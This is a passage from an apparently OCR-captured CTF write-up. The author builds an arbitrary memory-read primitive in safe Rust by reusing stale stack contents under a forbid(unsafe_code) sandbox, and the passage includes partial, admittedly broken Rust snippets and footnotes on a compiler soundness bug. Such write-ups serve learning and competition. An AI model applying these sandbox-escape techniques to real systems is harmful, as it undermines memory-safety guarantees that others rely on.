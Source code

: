 ```rust
}
```

## About that primitive..
I finished the above about 3 hours before the CTF ended. What remained was to turn the malformed `Box<usize>` into a working `read`/`write` implementation. Because the `mk_any()` call reuses existing stack contents, my intention was to have three functions:
- `read2(addr: usize) -> usize`, which **assuming the memory in which its stack frame is created has the right contents already**, will make a `Box` and dereference it to read memory. My initial, broken version looked more or less like so:
```rust
pub fn read2(addr: usize) -> usize {
    let b: Box<usize> = mk_any();

    let x = *b;
    if addr & MSB_MASK == 0 {
        // Make sure not to drop b, it's not actually
        // a valid heap allocation.
        std::mem::forget(b);
        return x;
    }

    /* noinline code */
}
```
- `stack_maker(addr: usize)`, which sets up the stack contents for `read2`:
```rust
pub fn stack_maker(addr: usize) {
    let local_arr: [usize; 8] = [
        addr,
        addr,
        addr,
        addr,
        addr,
        addr,
        addr,
        addr,
    ];
    // Use the array to prevent it being optimized out.
    println!("{:?}", local_arr[0]);

    /* noinline code */
}
```
- `read(addr: usize) -> usize`, which just calls `stack_maker` and then `read2`. Crucially, `stack_maker` and `read2` must not be inlined in order for the memory reuse trick to work, but `read` itself could be.

## UD2
After I implemented the above, all hell broke lose. I started running into increasingly bizarre issues - my opaque predicates going into the wrong branch, unexpected values popping out of nowhere, `SIGSEGV`s and messages like `"thread 'main' panicked at 'index out of bounds: the len is 94012078353104 but the index is 1'"` (I still don't know how this one is possible).


[^1]: Actually the check for `"unsafe"` strings, present in the source, wasn't working on remote, but there is also a `#![forbid(unsafe_code)]` compiler directive in the template, so I couldn't use `unsafe`.
[^2]: After the CTF, it turned out that the intended solution was to use [#57893](https://github.com/rust-lang/rust/issues/57893). The flag lists [#31287](https://github.com/rust-lang/rust/issues/31287), but that's a typo - as I mentioned, it's been fixed by NLL.
[^3]: Up from 36th last year. By induction, in 2020 we'll be (-4)th.
[^4]: Turns out, `&main as *const _` and `main as *const u64` are not the same.
